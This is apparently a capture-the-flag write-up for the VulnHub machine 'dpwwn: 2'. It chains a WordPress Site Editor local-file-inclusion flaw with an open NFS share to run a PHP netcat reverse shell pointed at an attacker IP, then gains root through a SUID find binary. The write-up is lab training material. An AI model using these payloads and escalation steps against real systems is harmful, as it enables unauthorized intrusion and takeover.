<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/dpwwn-2,343/">dpwwn: 2</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/debashisace">  debashisace</a></h4>

## Nmap



We've got quite a few ports open. Let's start with HTTP

***

## HTTP/HTTPs



If we visit the website we get a simple message about rooting the machine.

Since there is nothing here I just ran dirsearch and found a page.

```bash
➜ python dirsearch.py -f -e html,php,tar.gz,txt,xml,zip,jpg,png,jpeg -u http://10.10.10.10 -w ../lists/big.txt
```



Since it's a wordpress site I simply ran `wpscan` on it.

```bash
➜ wpscan --url http://10.10.10.10/wordpress/ -e u,ap --no-banner
```



We can see that `Site Editor` is vulnerable to LFI. We can read about the vulnerability on exploitdb, [Wordpress Plugin Site Editor 1.1.1 - Local File Inclusion](https://www.exploit-db.com/exploits/44340).

In Short we can exploit it by visiting link like `http://10.10.10.10/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`.

I tried to get RCE with this LFI but couldn't. So I left it this way and went on to checkout the nfs mount.

***

## NFS

We first check if the mount is accesible by everyone or not.



Since everyone can access it. We can just mount it on our system and then analyze it.

I mounted it in `tmp` dir.

Run the following commands.

* cd /tmp
* mkdir dpwwn
* `sudo mount 10.10.10.10:/home dpwwn`

After doing that I `cd` into the directory but it was empty.



I first thought for a while then realized the relation between the LFI and this mount. We can call a file present in this mount using the LFI and maybe it will run the PHP code i.e our reverse shell.

I used `msfvenom` to generate the reverse shell.

```bash
$ msfvenom -p cmd/unix/reverse_netcat lport=443 lhost=10.10.10.11
```

Then make it executable by PHP

```bash
$ echo "<?php system('mkfifo /tmp/qkcohb; nc 10.10.10.11 4444 0</tmp/qkcohb | /bin/sh >/tmp/qkcohb 2>&1; rm /tmp/qkcohb');" > shell.php
```



Run your listener and then run

```bash
➜ http -b http://10.10.10.10/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php\?ajax_path\=/home/dpwwn02/shell.php
```

This will give us the reverse shell.



***

## Privileg escalation

Since we are in the system let's run the `enumeration` script. With that I found a SUID file.



I searched `find` on `gtfobin` and found the `SUID` section i.e [gtfobin/find#suid](https://gtfobins.github.io/gtfobins/find/)

We can run `find . -exec /bin/sh -p \; -quit` to get a root shell.



Now get the flag.



***

This part was also kinda beginner but the reason it's considered intermediate is because of that part where we have to call shell in nfs from LFI.

Thanks to [@debashisace](https://twitter.com/debashisace) for this machine.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
